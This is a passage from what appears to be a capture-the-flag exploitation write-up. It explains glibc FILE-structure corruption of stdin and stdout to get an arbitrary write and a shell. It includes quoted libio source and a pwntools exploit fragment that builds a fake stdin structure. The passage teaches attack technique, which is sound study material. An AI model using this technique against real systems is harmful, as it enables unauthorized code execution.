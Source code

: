 Based on this loop condition, we can see that we can actually loop and call this function 0xe times, but ***only if*** we can cause that `if (len <= 0)` check to pass every time. For this check to pass, we just want `_IO_read_end` to be a much smaller value when compared to `_IO_read_ptr`. It needs to be sufficiently smaller though, because later in `_IO_new_file_underflow` (which is the function called by `__uflow`), we have the following snippet of code:

```c
// libio/fileops.c:468

int
_IO_new_file_underflow (_IO_FILE *fp)
{
  // ## [ ... ]
  count = _IO_SYSREAD (fp, fp->_IO_buf_base,
		       fp->_IO_buf_end - fp->_IO_buf_base);
 
  // ## [ ... ]
  
  fp->_IO_read_end += count;
  
  // ## [ ... ]
}
```

As you can see, `_IO_read_end` will be incremented by the number of bytes read by `_IO_SYSREAD` each time this function is called. In our final `fgets` call, we are going to read in `0x84` bytes into `stdin`'s file structure as mentioned previously, so it is going to be sufficient to set `_IO_read_end` to `_IO_read_ptr - 0x84` since we only need one arbitrary write to get a shell (as you'll see in a second). In my exploit though, I simply just set it to 0 because it didn't affect anything else.

The next section of my exploit (after the leaks) now looks as follows:

```python
log.info("LIBC leak: " + hex(leak))
log.info("LIBC base: " + hex(libc.address))
log.info("system@LIBC: " + hex(system))
log.info("/bin/sh: " + hex(bin_sh))
log.info("_IO_2_1_stdout_: " + hex(stdout))
log.info("_IO_2_1_stdin_: " + hex(stdin))

# Now that the stdout buffer has been cleared, we will actually receive the
# output from the program, so we use create1

# Overwrite the LSB of `_IO_buf_base` in `stdin`, third `fgets`
create1(0x200000, 0x5e6761 + 0x208010 + 0x2002b8, "A")

# We can now overwrite 0x84 bytes of the `stdin` structure on the next `fgets`

# Overwriting the `stdin` file structure
fake  = p64(0xfbad208b) # _flags as they were before
fake += p64(stdin) # _IO_read_ptr (needs to be a valid pointer)
fake += p64(0) * 5 # _IO_read_end to _IO_write_end can all be 0
fake += p64(stdout) # _IO_buf_base, we are overwriting stdout
fake += p64(stdout + 0x2000) # _IO_buf_end, we can overwrite 0x2000 bytes
fake = fake.ljust(0x84, b"\x00") # 0x84 byte padding to get to the next `fgets`

# This is the fourth and final `fgets`
p.send(fake)
```
